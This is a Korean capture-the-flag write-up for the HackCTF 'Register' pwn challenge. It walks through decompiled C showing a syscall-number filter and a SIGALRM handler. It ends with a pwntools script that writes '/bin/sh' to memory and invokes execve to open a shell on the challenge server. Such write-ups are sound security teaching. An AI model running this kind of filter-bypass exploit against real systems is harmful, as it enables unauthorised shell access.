 ```yaml
---
title: "[HackCTF]Register"
date: 2020-1-27
ctf: HackCTF
layout: post
---
```


메인에서는 alarm함수로 5초후 시그널 보낸다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  alarm(5u);
  setvbuf(stdout, 0LL, 2, 0LL);
  build();
}
```

메인에서 실행되는 build함수는 siglarm가 발생하면 handler로 처리해준다. 

```c
void __noreturn build()
{
  __int64 v0; // [rsp+0h] [rbp-40h]
  __int64 v1; // [rsp+8h] [rbp-38h]
  __int64 v2; // [rsp+10h] [rbp-30h]
  __int64 v3; // [rsp+18h] [rbp-28h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  __int64 v5; // [rsp+28h] [rbp-18h]
  __int64 v6; // [rsp+30h] [rbp-10h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  signal(14, handler);
  while ( 1 )
  {
    do
    {
      get_obj(&v0);
      obj = v0;
      qword_6010A8 = v1;
      qword_6010B0 = v2;
      qword_6010B8 = v3;
      qword_6010C0 = v4;
      qword_6010C8 = v5;
      qword_6010D0 = v6;
    }
    while ( validate_syscall_obj(v0) );
    raise(14);
  }
}
```

handler 내부를 보면 `exec_syscall_obj` 를 실행시켜주는데 우리가 입력한 값들이 각각 레지스터에 맞게 들어가 syscall을 호출해준다.

```c
__int64 __fastcall exec_syscall_obj(_QWORD *a1)
{
  _QWORD *v1; // rbx
  __int64 result; // rax
  __int64 v3; // rdi
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v6; // rcx
  __int64 v7; // r8
  __int64 v8; // r9

  v1 = a1;
  result = *a1;
  v3 = a1[1];
  v4 = v1[2];
  v5 = v1[3];
  v6 = v1[4];
  v7 = v1[5];
  v8 = v1[6];
  __asm { syscall; LINUX - }
  return result;
}
```

`validate_syscall_obj` 함수에서는 rax 레지스터 check를 해준다.

```c
__int64 __fastcall validate_syscall_obj(signed __int64 a1)
{
  unsigned int v2; // [rsp+14h] [rbp-4h]

  if ( a1 == 2 )
  {
    v2 = 0;
  }
  else if ( a1 > 2 )
  {
    if ( a1 == 3 )
    {
      v2 = 0;
    }
    else
    {
      if ( a1 != 60 )
        return 1;
      v2 = 0;
    }
  }
  else if ( a1 )
  {
    if ( a1 != 1 )
      return 1;
    v2 = 0;
  }
  else
  {
    v2 = 0;
  }
  return v2;
}
```

bss영역은 레지스터들이 사용되는 공간이라 data영역을 사용했다.

syscall 59는 필터링되어있어서 sleep() 줘서 sigalrm 떠서 handler 실행시키게 했다.

read(0,data,10) -> execve('/bin/sh\x00',0,0)

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./register')
# p = process('./register')
p = remote('ctf.j0n9hyun.xyz',3026)
data = 0x0000000000601068

def chain(rax,rdi,rsi,rdx,rcx,r8,r9):
	p.sendlineafter(':',str(rax))
	p.sendlineafter(':',str(rdi))
	p.sendlineafter(':',str(rsi))
	p.sendlineafter(':',str(rdx))
	p.sendlineafter(':',str(rcx))
	p.sendlineafter(':',str(r8))
	p.sendlineafter(':',str(r9))

chain(0,0,data,10,0,0,0)
p.send('/bin/sh\x00')
chain(59,data,0,0,0,0,0)
sleep(5)
p.interactive()
```

